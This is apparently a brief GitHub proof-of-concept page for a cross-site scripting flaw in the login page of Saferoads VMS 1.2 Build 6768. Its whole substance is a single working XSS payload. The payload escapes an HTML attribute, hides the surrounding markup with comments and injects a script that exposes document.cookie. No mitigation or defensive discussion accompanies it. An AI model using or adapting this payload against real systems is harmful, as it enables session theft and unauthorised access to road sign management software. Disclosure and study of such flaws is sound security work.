 # Saferoads-VMS-XSS
## 1.2 Build 6768
### XSS Using Login Page
```JS
" /> <!----> XSS Pwned<script>document.write("<script>alert(document.cookie);<\/script>");</script>♥ <!--
```
